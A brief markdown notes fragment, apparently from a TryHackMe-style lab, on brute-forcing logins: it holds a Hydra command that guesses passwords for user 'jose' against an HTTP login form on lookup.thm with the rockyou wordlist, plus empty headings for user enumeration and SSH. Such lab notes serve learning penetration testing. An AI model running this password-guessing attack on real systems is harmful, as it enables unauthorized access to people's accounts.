 # Brute Force

## User enumeration - error based



## Hydra to brute force password
```bash
# HTTP-post authentication
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong" -V

# ssh

```